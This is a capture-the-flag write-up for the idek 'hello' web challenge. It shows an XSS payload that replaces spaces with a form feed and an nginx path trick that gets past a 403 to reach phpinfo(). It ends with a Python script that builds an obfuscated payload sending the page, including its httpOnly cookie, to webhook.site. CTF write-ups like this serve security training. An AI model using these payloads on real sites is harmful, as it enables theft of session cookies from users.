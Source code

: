 ```yaml
---
created: 2024-08-17T18:40
updated: 2024-08-17T19:41
---
```


## problem

- cookie is `httpOnly`, which means its not accessible from js.
- free XSS because the substring part does nothing.

I am able to circumvent the need for spaces and slashes using the following payload.

```html
<svg\x0conload="alert(1)">
```

And I can send web requests from http://idek-hello.chal.idek.team:1337, but there is no cookie.
## phpinfo

`phpinfo()` also displays cookies, and that includes `httpOnly` cookies as well.

That means we can send a request to it and get our flag.

```html
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.27.1</center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
```

However we only get a 403, that's weird.

My teammate was able to find the following bypass, tbh idk how it works.

`http://idek-hello.chal.idek.team:1337/info.php/.php`

I do know that this is SSRF using the nginx rule but nginx is weird.

## script

```python
import urllib.parse
payload = """
fetch('http://idek-hello.chal.idek.team:1337/info.php/.php').then(r => r.text()).then(r => {
    fetch("http://webhook.site",{mode:  'no-cors', method: 'POST', body: r})
});
"""


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = urllib.parse.quote_plus(f"<svg\x0conload=\"console.log(1);eval('{string_to_hex(payload)}')\">")
print('http://idek-hello.chal.idek.team:1337/?name='+payload)
```

```flag
idek{Ghazy_N3gm_Elbalad}
```

